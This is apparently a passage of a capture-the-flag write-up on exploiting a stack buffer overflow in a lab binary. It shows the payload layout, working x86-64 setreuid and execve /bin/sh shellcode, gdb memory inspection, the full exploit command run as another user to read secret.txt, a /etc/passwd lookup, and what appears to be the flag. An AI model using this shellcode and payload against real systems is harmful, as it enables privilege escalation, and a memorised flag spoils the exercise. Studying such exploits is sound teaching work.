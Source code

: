 We’ll use the same shellcode (158 bytes) as previously, with the SETREUID. This time, we need to target user3 (ID is 1003), to be able to read `secret.txt`:

find the setreuid
`grep <user> /etc/passwd`<user>:x:1003:1003::/home/<user>:/bin/bash

pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
31ff66bfeb036a71584889fe0f05

payload =
NOP sled (90)  |  shellcode(54)  |  random chars (19)  |  Memory Address(6)
Total Length: 90 + 54 + 19 + 6 = 169

`payload = 'A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6`


run $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")

`(gdb) x/100x $rsp-200`
NOP sled: 0x41414141

shellcode: 0x58716a03

random chars: 0x42424242

return address: 0x00007fff

Let’s take **0x7fffffffe278** as return address (between future NOP sled and beginning of shell code).

./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x78\xe2\xff\xff\xff\x7f')")


wowanothertime!!





















